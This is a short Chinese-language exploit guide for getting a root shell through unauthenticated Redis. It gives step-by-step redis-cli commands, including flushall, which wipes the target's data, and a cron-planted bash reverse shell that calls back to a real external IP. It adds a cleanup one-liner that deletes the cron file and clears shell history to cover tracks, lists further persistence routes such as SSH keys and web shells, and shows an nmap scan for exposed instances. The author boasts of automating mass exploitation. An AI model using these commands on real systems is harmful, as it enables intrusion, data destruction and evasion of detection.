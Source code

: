```yaml
---
description: Redis常见的安全问题及利用方式，可以写任意文件并拿到服务器SHELL权限，如何自查Redis匿名访问问题。
---
```

# Redis GET SHELL

Feei <feei#feei.cn> 2014

## 0x01 漏洞背景
默认Redis安装完成后只能本机访问且没有密码的，一般场景下Redis是需要被其它服务器访问的，所以就会将`/etc/redis.conf`中的`bind-ip`改为`0.0.0.0`，由此导致外网可以匿名访问Redis（不需要密码）。

外网可以访问导致的问题是Redis数据外泄，除此之外若使用root账户启动的Redis则会造成GET SHELL。

## 0x02 利用方式
通过Redis的`config`命令，可以写入任意文件，权限足够的情况下可写入定时任务反弹得到SHELL。

**连上一台Redis**
```bash
redis-cli -h your_redis_server
```

**保持写入的干净，清除原有数据（如果是其它人机器，不建议这么做）**
```bash
flushall
```

**设置key(0)为bash反弹shell的脚本，每分钟执行一次，在自己服务器上监听7890端口(nc -vvl 7890)**
```bash
set 0 "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/103.21.140.84/7890 0>&1\n\n"
```

**设置保存的位置**
```bash
config set dir /var/spool/cron/ 
```

**设置保存的文件名**
```bash
config set dbfilename root
```

**保存**
```bash
save
```

至此就会在目标Redis服务器产生一个Cron文件`/var/spool/cron/root`，如果目标服务器Crond服务没有关闭的话，该文件就会每分钟执行一次导致SHELL，此时只需要在自己的服务器上监听7890端口，即可控制目标服务器。

退出目标服务器时，为了防止Cron再次连接，可以用如下命令退出

```bash
ps aux | grep 7890 | awk '{ print $2 }'|xargs kill;rm -f /var/spool/cron/root;history -c && exit
```

## 0x03 利用姿势

除了可以直接写定时任务拿到SHELL，还可以有多种姿势。

- 写cron反弹一个shell
- 写`~/.ssh/authorized_keys`，使用密钥直接登录
- 找到web目录的绝对路径，直接写web shell
- 写初始化脚本`/etc/profile.d/`
- 主从模式利用

## 0x04 漏洞自测
通过nmap扫描内网网段的redis匿名访问服务。（当然可以扫描外网）
```bash
nmap -p6379 10.11.0/16 --script redis-info
```
就是这个洞让我wooyun排名10天前进10页，当然是加到我的扫描器内（Vulture），自动化利用，每天就看下报告即可。
